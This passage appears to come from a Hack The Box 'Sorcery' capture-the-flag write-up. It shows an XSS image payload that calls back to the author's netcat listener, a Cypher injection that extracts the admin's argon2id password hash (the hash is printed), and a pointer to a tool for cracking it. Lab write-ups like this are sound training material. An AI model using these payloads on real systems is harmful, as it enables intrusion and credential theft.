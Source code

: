 We can see in DEVTOOLS, the `<script>` tag has been added but does not execute. <br>
&rarr; Let's try to alert to our kali machine.

I try this payload: `<img src="http://10.10.14.59:8000/xss" />`.
```bash
└─$ rlwrap -cAr nc -lvnp 8000 
listening on [any] 8000 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.14.59] 59088
zvI����I�A��W�2~�u�Qc�G�@�@��� �K���OE��%f�!H�ڸ-"s���ڢ�mKB"�+�/�,�0�
�       ����/5
              �

▒
 #
  hhttp/1.1"
3ki ���猧���ۋ��0���^g��C]'2����A(�6�d�;
                                       o��(���Q
y H��Tv�e��1�>H*��]��������ۺM�W)C�▒�^+
���Aޱ��@���6/L��J�ցNp�O �����;w<J%�����0�DU��l��_&���M  zi��▒��c)98"0����,��;6��i�qa
                                                                                    �E����Va��JB�ă�����~��:�A�h���K�M0��-�,.�gM�j24g*��#xΕJ�<c�IO-�G���)g��)|�W4!:�*��]���a#�
<��ю������Br�
             2�.���▒Ԃ|}����th�9�
<��ю������Br�
             2�.���▒Ԃ|}����th�9�
                                /�X0�
```

Got our connection. Let's try to get the cookie from admin or even admin password.

I try every case but seems like not working to get admin password, but I try cypher injection and able to get admin password.
```sql
"}) OPTIONAL MATCH (u:User {username: 'admin'}) RETURN result { .*, description: coalesce(u.password, result.description) }//
```

> **Note**: Remember to URL ENCODE the payload before send it to the server.

![Cypher Injection](/assets/img/sorcery-htb-season8/sorcery-htb-season8_cypher_injection.png)

Got this: <br>
`$argon2id$v=19$m=19456,t=2,p=1$T+K9waOashQqEOcDljfe5Q$X5Yul0HakDZrbkEDxnfn2KYJv/BdaFsXn7xNwS1ab8E` <br>
&rarr; Let's try if we can crack this to get plaintext password.

Found this repo [Argon2Crack](https://github.com/CyberKnight00/Argon2_Cracker) is a good tool for recovering Argon2 hash.
